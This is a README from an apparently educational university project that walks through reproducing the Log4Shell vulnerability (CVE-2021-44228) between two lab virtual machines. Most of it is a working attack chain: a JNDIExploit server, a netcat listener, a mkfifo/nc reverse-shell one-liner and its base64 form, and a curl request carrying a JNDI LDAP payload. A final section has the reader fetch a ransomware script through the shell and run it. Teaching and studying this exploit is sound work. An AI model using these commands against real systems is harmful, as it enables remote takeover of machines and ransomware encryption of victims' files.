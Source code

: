 # UNIVR - Fondamenti di Sicurezza e Privacy - Project 2022
<img src="https://img.shields.io/badge/%20-Shell-green?style=flat-square"> <img src="https://img.shields.io/badge/%20-Java-brown?style=flat-square">

### Warning

#### :warning: *This repository is for educational purpose only so do not use it on machines that are not yours*

#### :warning: *Do not run ransomware.sh except in your dedicated test virtual machine. Any file with the chosen extension will be encrypted, so be careful as you may lose your files*

<br>

---

<br>

To simulate **CVE-2021-44228**[<sup>1</sup>](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Log4j vulnerability also known as **Log4Shell**, you can follow this steps.

### General setup

 - Download and install two linux based VM.
 I chosed Kali Linux Virtual Box image[<sup>2</sup>](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)
 - Create a Network with NAT

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VBox_NAT.png">
 
 - Set the Network to the new one for both VMs

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VM_Network.png">

 - Run both VMs one after the other and run this command:<br>
 `sudo apt-get update -y && sudo apt-get upgrade -y`<br>
 - Download\* the Java SE Development Kit 8u181 (jdk1.8.0_181) from Oracle website [<sup>3</sup>](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz) and install it in the *victim* VM<br>
 *you need an Oracle account (it's free)

### Victim VM setup

- In the victim VM download the [Log4ShellVictim.jar](https://github.com/Fantantonio/Log4ShellVictim/blob/master/Log4ShellVictim.jar) and run it with the command:<br>
`sudo java- jar /to/your/path/Log4ShellVictim.jar`.<br>
The default port is 8080
- Use `ifcongig` command to know your victim VM's IP, in my case is `192.168.0.5`

### Attacker VM setup

- Download the [JNDIExploit.v1.2.zip](https://github.com/black9/Log4shell_JNDIExploit/blob/main/JNDIExploit.v1.2.zip) in the *attacker* VM and unzip it with the command:<br>
`unzipJNDIExploit.v1.2.zip`
- Run it with the following command:<br>
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.4 -p 8888`<br>
where `192.168.0.4` is the attacker VM's IP and `8888` is the HTTP listener port.<br>
Consider that the LDAP server will listen to the `1389` port by default
- Run `nc -nvlp 1234` in the attacker VM to listen to the `1234` port with Netcat
- Get a reverse shell command like this one:<br>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f`\*<br>
 Note that `1234` is the port we set Netcat to listen to earlier<br>
 \* you can use the [Revshell](https://www.revshells.com) website to build your own command
 - Run:<br>
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f" | base64`<br>
to encode it in base64.<br>
Of course use your command replacing mine.
 The output should look something like this:<br>
`cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=`
 - Run the curl from the attacher VM like so:<br>
`curl 192.168.0.5:8080 -H 'X-Api-Version:${jndi:ldap://192.168.0.4:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=}’`<br>
Replace `192.168.0.5` with your victim VM's IP, `192.168.0.4` with your attacker VM's IP and `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=` with your remote shell command base64 encoded.

Now you should see the vulnerability letting you as attacker run the command you injected in the request header and the remote shell ready where you set Netcat listen.

### A step further

- Download ransomware.sh file in `\var\www\html` folder of the attacker machine.<br>
Remember to edit the script adding your bot token, your telegram account id, the file extensions you want to encrypt and the string you want to write in the README.txt file will be generated for the victim
- Start apache in the attacker machine running:<br>
`service apache2 start`
- Use the remote shell to download the ransomware file in the victim machine with the command:<br>
`wget 192.168.0.4/ransomware.sh`<br>
where `192.168.0.4` is the attacker VM's IP
- One more time use the remote shell to run it:<br>
`sh ransomware.sh`<br>
and copy down the decryption key you'll receive in console as output if you want to be able to decrypt everything using the `decrypter.sh` file

### Footnotes
[\[1\] https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)<br>
[\[2\] https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)<br>
[\[3\] https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz)<br>
